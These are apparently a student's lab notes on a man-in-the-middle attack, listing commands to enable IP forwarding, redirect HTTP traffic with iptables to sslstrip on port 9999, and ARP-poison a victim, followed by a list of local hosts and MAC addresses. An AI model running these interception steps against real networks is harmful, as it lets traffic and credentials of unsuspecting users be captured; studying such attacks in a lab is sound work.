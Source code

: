 ##### forward traffic from one target to another (victim -> gateway)
We don't want to only sniff, but also route traffic  
enable IP forwarding by kernel:  
`sudo sysctl net.ipv4.ip_forward=1`   
`sysctl` is a tool for examining and changing kernel parameters at runtime  
OR  
`sudo su` (sudoers don't have such priviledges :O)  
`echo "1" > /proc/sys/net/ipv4/ip_forward`  

for change persistent after reboot edit `/etc/sysctl.d/30-ipforward.conf`  
e.g.  
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```


Configure iptables:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 9999`  
`sslstrip` will listen on 9999, thus working only on to-be-redirected HTTPs  
`iptables` run as `systemd` service. To start on reboot you have to `enable` it.   
rules to be loaded are located in `/etc/iptables/iptables.rules` for `iptables.service` and in `/etc/iptables/ip6tables.rules` for `ip6tables.service`    
to save rules passed via cli to conf file: `iptables-save -f /etc/iptables/iptables.rules`   
if conf file edited - `reload` via `systemctl`   

ARP poisoning like in [zad8](./zad8.md)  

`sslstrip -l 9999`  
what exactly it does?  




How during arp spoof sniff  neocortex is allowed to browse web? (kernel forwarding is not active)

```
192.168.1.1     f0:51:36:1f:17:96       TCT mobile ltd
192.168.1.100   28:f1:0e:21:14:8d       Dell Inc.
192.168.1.107   c4:85:08:d3:4a:00       Intel Corporate
192.168.1.102   92:d9:55:3b:80:51       (Unknown: locally administered)
```